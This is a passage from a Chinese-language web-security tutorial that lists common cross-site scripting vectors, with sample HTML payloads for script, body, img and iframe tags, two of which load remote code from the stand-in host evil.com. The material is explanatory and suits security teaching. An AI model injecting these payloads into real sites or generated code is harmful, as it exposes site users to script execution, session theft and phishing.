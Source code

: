 想了解更多如何实现 XSS 攻击，你可以参考[一份跨站脚本攻击的综合教程](https://excess-xss.com/)。

## 跨站脚本攻击方式

以下列表包含常见的 XSS 攻击方式，攻击者可使用它们降低网站的安全性。OWASP 组织维护了一个更完整的 XSS 攻击方式的列表：[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)。

### `<script>` 标签

`<script>` 标签是最直接的 XSS 攻击方式。它可以引用外部 JavaScript 代码或者将代码嵌入到标签内。

```html
<!-- 引用外部 JavaScript 代码-->
<script src=http://evil.com/xss.js></script>
<!-- 将代码嵌入到标签内 -->
<script> alert("XSS"); </script>
```

### JavaScript 事件

像 `onload` 和 `onerror` 这类 JavaScript 事件属性能在很多种标签中使用。这也是一类非常流行的 XSS 攻击方式。

```html
<!-- <body> 标签上的 onload 属性 -->
<body onload=alert("XSS")>
```

### `<body>` 标签

在 `<body>` 标签中，除了像上面一样，可以通过事件属性实现 XSS 攻击代码外，还可以通过更多鲜为人知的属性，比如：`background` 属性。

```html
<!-- background 属性 -->
<body background="javascript:alert("XSS")">
```

### `<img>` 标签

一部分浏览器会执行 `<img>` 属性中的 JavaScript 代码。

```html
<!-- <img> 标签 XSS 攻击 -->
<img src="javascript:alert("XSS");">
<!--  通过鲜为人知的属性进行 XSS 攻击 -->
<img dynsrc="javascript:alert('XSS')" />
<img lowsrc="javascript:alert('XSS')" />
```

### `<iframe>` 标签

`<iframe>` 标签的功能是将另一个 HTML 页面嵌入到当前页面中。由于内容安全协议（CSP），尽管 IFrame 中可能有 JavaScript 代码，但这些代码没有权限访问父页面上的 DOM。然而，IFrame 仍然是发起网络钓鱼攻击的有效方式。

```html
<!-- <iframe> 标签 XSS 攻击 -->
<iframe src="http://evil.com/xss.html"></iframe>
```
